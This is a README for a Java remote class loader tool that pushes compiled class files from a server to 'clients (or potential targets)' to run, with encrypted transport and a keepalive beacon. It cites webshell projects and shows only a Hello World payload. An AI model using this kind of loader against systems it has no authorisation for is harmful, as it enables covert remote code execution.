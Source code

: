 <h1 align="center">
  <img src="static/cb350880cb958301f950327f10128471059a1fe3.png" alt="java-remote-class-loader" width="500px">
  <br>
</h1>

This tool allows you to send Java bytecode in the form of class files to your clients (or potential targets) to load and execute using Java ClassLoader together with Reflect API. The client receives the class file from the server and return the respective execution output. Payloads must be written in Java and compiled before starting the server.


# Features
 - Client-server architecture
 - Remote loading of Java class files
 - In-transit encryption using ChaCha20 cipher
 - Settings defined via args
 - Keepalive mechanism to re-establish communication if server restarts

# Installation

Tool has been tested using OpenJDK 11 with JRE Java Package, both on Windows and Linux (zip portable version).
Java version should be 11 or higher due to dependencies.

[https://www.openlogic.com/openjdk-downloads](https://www.openlogic.com/openjdk-downloads)



# Usage

```console
$ java -jar java-class-loader.jar -help

usage: Main
 -address <arg>       address to connect (client) / to bind (server)
 -classfile <arg>     filename of bytecode .class file to load remotely
                      (default: Payload.class)
 -classmethod <arg>   name of method to invoke (default: exec)
 -classname <arg>     name of class (default: Payload)
 -client              run as client
 -help                print this message
 -keepalive           keeps the client getting classfile from server every
                      X seconds (default: 3 seconds)
 -key <arg>           secret key - 256 bits in base64 format (if not
                      specified it will generate a new one)
 -port <arg>          port to connect (client) / to bind (server)
 -server              run as server
```

# Example

Assuming you have the following Hello World payload in the `Payload.java` file:

```java
//Payload.java
public class Payload {
    public static String exec() {
        String output = "";
        try {
            output = "Hello world from client!";
        } catch (Exception e) {
            e.printStackTrace();
        }
        return output;
    }
}
```

Then you should compile and produce the respective `Payload.class` file.

To run the server process listening on port 1337 on all net interfaces:

```console
$ java -jar java-class-loader.jar -server -address 0.0.0.0 -port 1337 -classfile Payload.class

Running as server
Server running on 0.0.0.0:1337
Generated new key: TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=
```


On the client side, you may use the same JAR package with the `-client` flag and use the symmetric key generated by server.
Specify the server IP address and port to connect to. You may also change the class name and class method (defaults are `Payload` and `String exec()` respectively). Additionally, you can specify `-keepalive` to keep the client requesting class file from server while maintaining the connection.

```console
$ java -jar java-class-loader.jar -client -address 192.168.1.73 -port 1337 -key TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=

Running as client
Connecting to 192.168.1.73:1337
Received 593 bytes from server
Output from invoked class method: Hello world from client!
Sent 24 bytes to server
```


# References

Refer to [https://vrls.ws/posts/2022/08/building-a-remote-class-loader-in-java/](https://vrls.ws/posts/2022/08/building-a-remote-class-loader-in-java/) for a blog post related with the development of this tool.


1.  [https://github.com/rebeyond/Behinder](https://github.com/rebeyond/Behinder)

2. [https://github.com/AntSwordProject/antSword](https://github.com/AntSwordProject/antSword)

3. [https://cyberandramen.net/2022/02/18/a-tale-of-two-shells/](https://cyberandramen.net/2022/02/18/a-tale-of-two-shells/)

4. [https://www.sangfor.com/blog/cybersecurity/behinder-v30-analysis](https://www.sangfor.com/blog/cybersecurity/behinder-v30-analysis)

11. [https://xz.aliyun.com/t/2799](https://xz.aliyun.com/t/2799)

12. [https://medium.com/@m01e/jsp-webshell-cookbook-part-1-6836844ceee7](https://medium.com/@m01e/jsp-webshell-cookbook-part-1-6836844ceee7)

10. [https://venishjoe.net/post/dynamically-load-compiled-java-class/](https://venishjoe.net/post/dynamically-load-compiled-java-class/)

5. [https://users.cs.jmu.edu/bernstdh/web/common/lectures/slides_class-loaders_remote.php](https://users.cs.jmu.edu/bernstdh/web/common/lectures/slides_class-loaders_remote.php)

6. [https://www.javainterviewpoint.com/chacha20-poly1305-encryption-and-decryption/](https://www.javainterviewpoint.com/chacha20-poly1305-encryption-and-decryption/)

7. [https://openjdk.org/jeps/329](https://openjdk.org/jeps/329)

8. [https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/ClassLoader.html](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/ClassLoader.html)

9. [https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/reflect/Method.html](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/reflect/Method.html)
